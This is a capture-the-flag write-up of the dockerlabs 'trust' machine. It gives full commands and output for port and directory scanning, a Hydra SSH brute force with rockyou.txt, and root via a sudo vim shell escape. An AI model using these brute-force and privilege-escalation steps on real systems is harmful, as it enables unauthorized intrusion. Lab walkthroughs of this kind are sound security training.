

# trust

## Executive Summary

| Machine | Author | Category | Platform |
| :--- | :--- | :--- | :--- |
| trust | El Pingüino de Mario | Very Easy | dockerlabs |

**Summary:** The trust machine presented two services: an Apache web server on port 80 and an OpenSSH daemon on port 22. The web server's root path served only a default Debian Apache placeholder page, offering no immediate foothold. A feroxbuster directory scan uncovered a non-indexed PHP endpoint at `/secret.php` which, when visited, disclosed a username in plain text: `mario`. Armed with that username, Hydra was launched against the SSH service with the `rockyou.txt` wordlist and recovered valid credentials in under a minute. Once authenticated as `mario`, a `sudo -l` query revealed that the account was permitted to invoke `/usr/bin/vim` as any user on the system. Since the correct password had already been recovered through brute force, the sudo policy was exercisable without any further barrier. The GTFOBins shell escape for `vim` was applied: passing `-c ':!/bin/bash'` on the command line caused the editor to immediately fork a bash process inheriting root's effective UID, delivering a full root shell without ever interacting with the editor's UI. The entire chain collapsed into three sequential steps: username discovery from a poorly protected PHP page, SSH credential recovery via brute force, and a single-command privilege escalation through a misconfigured sudo vim entry.

---

## Reconnaissance

The machine was deployed using the standard dockerlabs script and assigned the address `172.19.0.2`.

**1.** Deploy the target container and record its IP address:

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[~/dockerlabs]
└─$ sudo bash auto_deploy.sh trust.tar
[sudo] password for ouba:

                        ##        .
                  ## ## ##       ==
               ## ## ## ##      ===
           /""""""""""""""""\___/ ===
      ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
           \______ o          __/
             \    \        __/
              \____\______/

  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___]


Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.19.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

**2.** Set shell variables and launch a full-port versioned Nmap scan:

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/trust]
└─$ ip=172.19.0.2 && url=http://$ip

┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/trust]
└─$ nmap -sC -sV -p- -T4 $ip
Starting Nmap 7.95 ( https://nmap.org ) at 2026-03-10 17:44 WIB
Nmap scan report for 172.19.0.2
Host is up (0.000010s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey:
|   256 19:a1:1a:42:fa:3a:9d:9a:0f:ea:91:7f:7e:db:a3:c7 (ECDSA)
|_  256 a6:fd:cf:45:a6:95:05:2c:58:10:73:8d:39:57:2b:ff (ED25519)
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.57 (Debian)
MAC Address: 02:42:AC:13:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.63 seconds
```

Two open ports were identified: **TCP 22** running OpenSSH 9.2p1 on Debian, and **TCP 80** running Apache 2.4.57, also on Debian. The web server's title was "Apache2 Debian Default Page: It works", confirming the root path was a factory-default placeholder. With no visible application content at the surface level, the next step was to enumerate hidden paths and files.

---

## Web Enumeration and Username Discovery

**3.** Run feroxbuster against the web root with a broad extension list to uncover non-indexed content:

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/trust]
└─$ feroxbuster -u $url -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -x txt,php,jpg,html,zip,bak,pem,log,yml,js

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.13.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://172.19.0.2/
 🚩  In-Scope Url          │ 172.19.0.2
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.13.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💲  Extensions            │ [txt, php, jpg, html, zip, bak, pem, log, yml, js]
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET        9l       31w      272c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
403      GET        9l       28w      275c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET       24l      127w    10359c http://172.19.0.2/icons/openlogo-75.png
200      GET      368l      933w    10701c http://172.19.0.2/
200      GET      368l      933w    10701c http://172.19.0.2/index.html
200      GET       39l       78w      927c http://172.19.0.2/secret.php
[####################] - 17s    52316/52316   0s      found:4       errors:0
[####################] - 16s    52261/52261   3266/s  http://172.19.0.2/
```

Four paths responded with HTTP 200. Three of them (`/`, `/index.html`, and `/icons/openlogo-75.png`) were components of the default Debian Apache page and held no exploitable content. The fourth, `/secret.php`, was a custom endpoint not linked from anywhere on the site. Visiting it in the browser immediately surfaced the critical intelligence of the entire engagement.

**4.** Open `http://172.19.0.2/secret.php` to inspect its contents:



The page disclosed a username in clear text: **`mario`**. This single piece of information, hidden behind a non-indexed PHP file, was the pivot point for the entire attack. With a confirmed username and an active SSH daemon, a credential brute force was the natural and immediate next move.

---

## SSH Credential Recovery via Brute Force

**5.** Launch Hydra against the SSH service using the discovered username and the `rockyou.txt` wordlist:

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/trust]
└─$ hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://$ip -t 4
Hydra v9.6 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-03-10 17:56:19
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking ssh://172.19.0.2:22/
[22][ssh] host: 172.19.0.2   login: mario   password: c[REDACTED]
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2026-03-10 17:56:54
```

Hydra found valid SSH credentials for `mario` in approximately 35 seconds. The password resided near the top of the `rockyou.txt` list, reflecting a weak, commonly used choice. With working credentials in hand, SSH access was established immediately.

---

## Initial Access as `mario`

**6.** Connect to the machine via SSH and assess the account's identity and privileges:

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/trust]
└─$ ssh mario@$ip
...
mario@172.19.0.2's password:
Linux 7bdb5989aecd 6.6.87.2-microsoft-standard-WSL2 #1 SMP PREEMPT_DYNAMIC Thu Jun  5 18:30:46 UTC 2025 x86_64
...
mario@7bdb5989aecd:~$ id
uid=1000(mario) gid=1000(mario) groups=1000(mario),100(users)
```

The session landed as `mario` with standard user privileges. The kernel banner identified the host as running under WSL2. The `id` output confirmed the account belonged to the `users` group (GID 100) but held no elevated rights by default. A `sudo -l` query was the essential next diagnostic.

**7.** Enumerate the sudo policy for the `mario` account:

```bash
mario@7bdb5989aecd:~$ sudo -l
Matching Defaults entries for mario on 7bdb5989aecd:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User mario may run the following commands on 7bdb5989aecd:
    (ALL) /usr/bin/vim
```

The result was definitive: `mario` was permitted to run `/usr/bin/vim` as any user on the system via sudo. The `use_pty` default setting was present, but it did not prevent the shell escape technique. Because `mario`'s password had already been recovered through the Hydra brute force, invoking sudo with vim was straightforward. `vim` is a well-documented GTFOBins vector: its built-in ex command interface supports arbitrary shell execution via the `:!` escape, which spawns a child process inheriting the privileges of the `vim` process itself.

---

## Privilege Escalation via vim Shell Escape

**8.** Invoke `vim` as root using sudo, passing a shell escape command directly on the command line to bypass the interactive editor UI:

```bash
mario@7bdb5989aecd:~$ sudo /usr/bin/vim -c ':!/bin/bash'

root@7bdb5989aecd:/home/mario# cd
root@7bdb5989aecd:~# id;whoami;hostname
uid=0(root) gid=0(root) groups=0(root)
root
7bdb5989aecd
```

The `-c ':!/bin/bash'` flag instructed `vim` to execute the ex command `:!/bin/bash` as its first action on startup. This caused `vim` to fork `/bin/bash` before rendering any UI, and since `vim` was running with root privileges courtesy of sudo, the resulting bash process inherited `uid=0`. A full interactive root shell was obtained immediately. The chained `id;whoami;hostname` command confirmed complete compromise of container `7bdb5989aecd`.

---

## Attack Chain Summary

1. **Reconnaissance**: A full TCP port scan identified two services: OpenSSH 9.2p1 on port 22, and Apache 2.4.57 on port 80 serving a default Debian placeholder page with no visible application content.

2. **Vulnerability Discovery**: A feroxbuster directory scan with the SecLists `common.txt` wordlist uncovered a non-indexed endpoint at `/secret.php`. Visiting this page revealed the plaintext username `mario`, providing the only piece of intelligence needed to begin the credential attack phase.

3. **Exploitation**: Hydra was launched against the SSH service using `mario` as the username and `rockyou.txt` as the password list. Valid credentials were recovered in under one minute. SSH access was established using the brute-forced password.

4. **Internal Enumeration**: After logging in as `mario`, a `sudo -l` query exposed a critical misconfiguration: the account had permission to run `/usr/bin/vim` as any user on the system. Since the account password was already known from the brute-force phase, the sudo entry was fully exploitable.

5. **Privilege Escalation**: The GTFOBins technique for `vim` was applied: `sudo /usr/bin/vim -c ':!/bin/bash'` launched `vim` as root and immediately executed a bash shell via the `:!` ex command, inheriting root's UID. The session was promoted to `uid=0(root)` on container `7bdb5989aecd` with a single command.
